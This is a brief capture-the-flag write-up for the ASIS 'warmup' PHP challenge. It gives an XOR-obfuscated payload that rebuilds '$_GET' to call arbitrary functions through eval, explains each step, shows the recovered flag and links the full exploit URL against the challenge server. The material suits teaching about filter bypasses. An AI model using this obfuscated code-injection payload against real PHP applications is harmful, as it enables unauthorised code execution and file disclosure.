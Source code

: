 **Payload: ``` $_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php```**

**Explaining:**
  - ```$_="`{{{"^"?<>/";``` | Result of xor operation: ```$_ = "_GET"```
  - ```${$_}[_](${$_}[__]);``` | Function call: ```$_GET[_]($_GET[__])```
  - Setting the parameters, eval function will run: ```eval(highlight_file('flag.php'))```

**Flag:** ASIS{w4rm_up_y0ur_br4in}

**[GET THE FLAG](http://69.90.132.196:5003/?warmup=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php)**
